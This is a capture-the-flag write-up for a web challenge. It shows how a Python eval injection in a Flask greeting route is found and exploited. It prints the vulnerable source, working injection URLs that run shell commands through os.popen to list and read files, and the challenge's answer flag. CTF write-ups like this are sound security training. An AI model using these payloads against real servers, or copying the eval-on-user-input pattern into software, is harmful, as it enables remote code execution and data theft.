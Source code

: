 #### Challenge:

Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on [http://user-info.mysterious-delivery.tcc](http://user-info.mysterious-delivery.tcc). We fear this will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!

`Note: Solving this challenge will open 1 new challenge.`

---

#### Solution:

We are presented with simple web application that prints back the last segment of the URL eg:

```text
http://user-info.mysterious-delivery.tcc/hello/user
```

prints:

```text
Hello user
```

Trying various inputs I noticed that inputting double quotes `"` causes the server to exit with `Internal Server Error (HTTP Status Code 500)`.
Based on that I tried:

```text
http://user-info.mysterious-delivery.tcc/hello/"+"a"+"
```

getting:

```text
Hello a
```

Noticing in the network tab the header `Server gunicorn`, I was pretty sure we are dealing with some kind of `python` injection/escape, hence I tried:

```text
http://user-info.mysterious-delivery.tcc/hello/"+str(open(__file__).read())+"
```

this got me the code of the application (manually formatted):

```python
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app @bp.route('/hello/<path:userstring>')

def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message) @bp.route('/')

def redirect_to_user():
    return redirect("/hello/user", code=302)
```

With this knowledge I started building the payload for shell access.
Fast forward the tedious trial-and-error phase, I ended up with these commands for `directory listing` / `printing files`, which print the flag:

```text
http://user-info.mysterious-delivery.tcc/hello/"+str(__builtins__['__import__']('os').popen('ls -al /app/FLAG/flag.txt').read())+"
http://user-info.mysterious-delivery.tcc/hello/"+str(__builtins__['__import__']('os').popen('cat /app/FLAG/flag.txt').read())+"
```
---

<details><summary>FLAG:</summary>

```
FLAG{OONU-Pm7V-BK3s-YftK}
```

</details>
<br/>
